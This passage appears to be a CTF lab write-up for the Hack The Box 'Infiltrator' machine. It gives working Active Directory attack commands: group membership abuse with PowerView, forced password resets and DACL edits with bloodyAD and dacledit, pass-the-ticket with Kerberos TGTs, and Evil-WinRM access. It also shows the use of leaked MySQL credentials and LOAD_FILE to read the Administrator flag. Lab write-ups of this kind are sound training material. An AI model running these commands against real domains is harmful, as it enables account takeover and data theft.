Logging directory is set to /root/.powerview/logs/dc01.infiltrator.htb
(LDAPS)-[dc01.infiltrator.htb]-[INFILTRATOR\E.rodriguez]
PV > Add-
Add-ADComputer            Add-CATemplateAcl         Add-DomainComputer        Add-DomainGroupMember     Add-DomainUser            Add-GroupMember           
Add-ADUser                Add-DomainCATemplate      Add-DomainDNSRecord       Add-DomainOU              Add-GPLink                Add-OU                    
Add-CATemplate            Add-DomainCATemplateAcl   Add-DomainGPO             Add-DomainObjectAcl       Add-GPO                   Add-ObjectAcl             
(LDAPS)-[dc01.infiltrator.htb]-[INFILTRATOR\E.rodriguez]
PV > Add-Domain
Add-DomainCATemplate      Add-DomainComputer        Add-DomainGPO             Add-DomainOU              Add-DomainUser            
Add-DomainCATemplateAcl   Add-DomainDNSRecord       Add-DomainGroupMember     Add-DomainObjectAcl       
(LDAPS)-[dc01.infiltrator.htb]-[INFILTRATOR\E.rodriguez]
PV > Add-DomainGroupMember 
[2024-09-03 15:48:20] -Identity and -Members flags required
(LDAPS)-[dc01.infiltrator.htb]-[INFILTRATOR\E.rodriguez]
PV > Add-DomainGroupMember -Identity 'Chiefs Marketing' -Members 'E.Rodriguez'
[2024-09-03 15:48:54] User E.Rodriguez successfully added to Chiefs Marketing
(LDAPS)-[dc01.infiltrator.htb]-[INFILTRATOR\E.rodriguez]
PV > 

```

Now by being part of that group we can reset **M.Harris** password and finally get access to the DC!



```
Logging directory is set to /root/.powerview/logs/dc01.infiltrator.htb
(LDAPS)-[dc01.infiltrator.htb]-[INFILTRATOR\E.rodriguez]
PV > Set-DomainUserPassword -Identity 'm.harris' -AccountPassword 'WAT?watismypass!'
[2024-09-03 15:58:06] [Set-DomainUserPassword] Principal CN=M.harris,CN=Users,DC=infiltrator,DC=htb found in domain
[2024-09-03 15:58:06] [Set-DomainUserPassword] Password has been successfully changed for user M.harris
[2024-09-03 15:58:06] Password changed for m.harris
(LDAPS)-[dc01.infiltrator.htb]-[INFILTRATOR\E.rodriguez]
PV > 

```

I see that the pass seems messing up and for this reason I will request a TGT just in case as well.

```
┌──(impacket-kxHGS155)─(root㉿kali-bello)-[/home/millycash/Downloads/Infiltrator]
└─# impacket-getTGT infiltrator.htb/m.harris:'WAT?watismypass!'                  
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in m.harris.ccache
                                                                                                                                                              
┌──(impacket-kxHGS155)─(root㉿kali-bello)-[/home/millycash/Downloads/Infiltrator]
└─# export KRB5CCNAME=/home/millycash/Downloads/Infiltrator/m.harris.ccache 
                                                                                                                                                              
┌──(impacket-kxHGS155)─(root㉿kali-bello)-[/home/millycash/Downloads/Infiltrator]
└─# klist
Ticket cache: FILE:/home/millycash/Downloads/Infiltrator/m.harris.ccache
Default principal: m.harris@INFILTRATOR.HTB

Valid starting     Expires            Service principal
09/04/24 12:10:22  09/04/24 16:10:22  krbtgt/INFILTRATOR.HTB@INFILTRATOR.HTB
    renew until 09/04/24 16:10:22
```



Now we should be able to login right? NO! Indeed as I guessed it is blocked for use, which means we need to use the PassTheTicket technique:

```
└─# netexec ldap infiltrator.htb -u 'm.harris' -p 'WAT?watismypass!'
SMB         10.129.142.178  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:infiltrator.htb) (signing:True) (SMBv1:False)
LDAP        10.129.142.178  389    DC01             [-] infiltrator.htb\m.harris:WAT?watismypass! 
                                                                                                                                                                                             
┌──(root㉿kali)-[/home/user/Downloads/Infiltrator]
└─# netexec smb infiltrator.htb -u 'm.harris' -p 'WAT?watismypass!'
SMB         10.129.142.178  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:infiltrator.htb) (signing:True) (SMBv1:False)
SMB         10.129.142.178  445    DC01             [-] infiltrator.htb\m.harris:WAT?watismypass! STATUS_ACCOUNT_RESTRICTION
```

The reason is still most likely cause *Harris* is also part of the **Protected user** group membership. I will resume all my commands here:

```
//Getting TGT, adding delegation, and passwd reset for E.rodriguez
unset KRB5CCNAME
rm *.ccache
impacket-getTGT infiltrator.htb/d.anderson:'WAT?watismypass!'
export KRB5CCNAME=/home/millycash/Downloads/Infiltrator/d.anderson.ccache
python3 ../impacket/examples/dacledit.py infiltrator.htb/d.anderson:'WAT?watismypass!' -target-dn 'OU=MARKETING DIGITAL,DC=INFILTRATOR,DC=HTB' -dc-ip 10.129.231.169 -action 'write' -principal 'd.anderson' -rights 'FullControl' -k -inheritance
bloodyAD --host "dc01.infiltrator.htb" -d "infiltrator.htb" -u "d.anderson" -k set password "e.rodriguez" 'WAT?watismypass!'

//Adding E.Rodriguez to the group
powerview infiltrator.htb/e.rodriguez:'WAT?watismypass!'@dc01.infiltrator.htb
Add-DomainGroupMember -Members 'e.rodriguez' -Identity 'CHIEFS MARKETING'

//Passwd reset + TGT
bloodyAD --host "dc01.infiltrator.htb" -d "infiltrator.htb" -u "e.rodriguez" -p 'WAT?watismypass!'  set password "m.harris" 'WAT?watismypass!'
impacket-getTGT infiltrator.htb/m.harris:'WAT?watismypass!'
unset KRB5CCNAME
export KRB5CCNAME=/home/millycash/Downloads/Infiltrator/m.harris.ccache
```

Now we need to fix the local kerberos environment so we can use it together with kerberos local environment.

```
└─# cat /etc/krb5.conf 
[libdefaults]
    default_realm = INFILTRATOR.HTB

# The following krb5.conf variables are only for MIT Kerberos.
    kdc_timesync = 1
    ccache_type = 4
    forwardable = true
    proxiable = true
        rdns = false


# The following libdefaults parameters are only for Heimdal Kerberos.
    fcc-mit-ticketflags = true

[realms]
    INFILTRATOR.HTB = {
        admin_server = dc01.infiltrator.htb
        default_domain = dc01.infiltrator.htb
    }

[domain_realm]
    .infiltrator.htb = INFILTRATOR.HTB
    infiltrator.htb = INFILTRATOR.HTB
```

We are also pointing to the ccache via export variable.



This allows us to get our first flag baby!

```
*Evil-WinRM* PS C:\Users\M.harris\Desktop> ls


    Directory: C:\Users\M.harris\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---         9/3/2024  10:27 AM             34 user.txt


*Evil-WinRM* PS C:\Users\M.harris\Desktop> cat user.txt
4e6388b7b7a6059be42de033efcda79b
*Evil-WinRM* PS C:\Users\M.harris\Desktop>
```

&nbsp;

# Road to Root.txt

Now to make my life easier I will upload Winpeas.bat and check what juicy informations can I find so far! And I see some strange DB?



```
ÉÍÍÍÍÍÍÍÍÍ͹ Installed Applications --Via Program Files/Uninstall registry--
È Check if you can modify installed software https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#software
    C:\Program Files\Common Files
    C:\Program Files\desktop.ini
    C:\Program Files\Hyper-V
    C:\Program Files\internet explorer
    C:\Program Files\Output Messenger
    C:\Program Files\Output Messenger Server
    C:\Program Files\PackageManagement
    C:\Program Files\Uninstall Information
    C:\Program Files\Update Services
    C:\Program Files\VMware
    C:\Program Files\Windows Defender
    C:\Program Files\Windows Defender Advanced Threat Protection
    C:\Program Files\Windows Mail
    C:\Program Files\Windows Media Player
    C:\Program Files\Windows Multimedia Platform
    C:\Program Files\windows nt
    C:\Program Files\Windows Photo Viewer
    C:\Program Files\Windows Portable Devices
    C:\Program Files\Windows Security
    C:\Program Files\Windows Sidebar
    C:\Program Files\WindowsApps
    C:\Program Files\WindowsPowerShell
```

Those DB are listening on the following TCP ports:

```
TCP        [::]                                        14126         [::]                                        0               Listening         3964            outputmessenger_httpd
  TCP        [::]                                        14127         [::]                                        0               Listening         6404            OMServerService
  TCP        [::]                                        14128         [::]                                        0               Listening         6404            OMServerService
  TCP        [::]                                        14130         [::]                                        0               Listening         6404            OMServerService
  TCP        [::]                                        14406         [::]                                        0               Listening         3056            outputmessenger_mysqld
```

And some config files?

```
ÉÍÍÍÍÍÍÍÍÍ͹ Found Windows Files
File: C:\Users\All Users\USOShared\Logs\System
File: C:\Program Files\Common Files\system
File: C:\Program Files (x86)\Common Files\system
File: C:\Users\All Users\MySQL\MySQL Server 8.0\my.ini
File: C:\Users\Default\NTUSER.DAT
File: C:\Users\M.harris\NTUSER.DAT
```

But nothing is saved in it, so let's check the other folder.

Now googling around seems like it is about this SW: https://www.outputmessenger.com/lan-messenger-downloads/

Now here I was stuck and got the tips to use the password from **K.Turner** user description.



The problem is that we need to portfw the ports so far!



And we are in:



We can see some more credentials?



&nbsp;

## Unintented way

This way will use the MYSQL backend used by the application to read the flag. We can find the backup saved at:

```
*Evil-WinRM* PS C:\programdata\Output Messenger Server\Temp> ls


    Directory: C:\programdata\Output Messenger Server\Temp


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        2/19/2024   7:51 AM       15702539 OutputMessengerApache.zip
-a----        2/19/2024   7:51 AM       25477937 OutputMessengerMysql.zip
-a----        2/19/2024   7:52 AM        3369187 OutputWall.zip
-a----        2/19/2024   7:51 AM        6554576 vcredist_x86.exe
```

Unzipping the MYSql archive we can find the credentials used by the backend!

```
└─# cat OutputMysql.ini 
[SETTINGS]
SQLPort=14406
Version=1.0.0

[DBCONFIG]
DBUsername=root
DBPassword=ibWijteig5
DBName=outputwall

[PATHCONFIG]
;mysql5.6.17
MySQL=mysql
Log=log
def_conf=settings
MySQL_data=data
Backup=backup
```

Now we can use this credentials to login into the system via MYSQL:

```
──(root㉿kali-bello)-[/home/millycash/Downloads/Infiltrator]
└─# mysql -h 240.0.0.1 -P 14406 -u root -p'ibWijteig5' --skip_ssl
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 15
Server version: 10.1.19-MariaDB mariadb.org binary distribution

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Support MariaDB developers by giving a star at https://github.com/MariaDB/server
Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| outputwall         |
| performance_schema |
+--------------------+
4 rows in set (0.031 sec)

MariaDB [(none)]>
```

Et voila!

```
MariaDB [(none)]> SELECT LOAD_FILE('C:\\Users\\Administrator\\Desktop\\root.txt');
+----------------------------------------------------------+
| LOAD_FILE('C:\\Users\\Administrator\\Desktop\\root.txt') |
+----------------------------------------------------------+
| e7b221a7b934f9be27b990f9564bac9a
                       |
+----------------------------------------------------------+
1 row in set (0.044 sec)
```

&nbsp;

## Intended Way

This time is it longer as it spins around the messenger app to gain access as Olivia.Rodriguez, export a local file to get access to the service account. From there will be CA escalation.

I am still trying to find a way how to get to O.Rodriguez as I understand she have access to some juicy 7zip archives where other stuff might be hidden.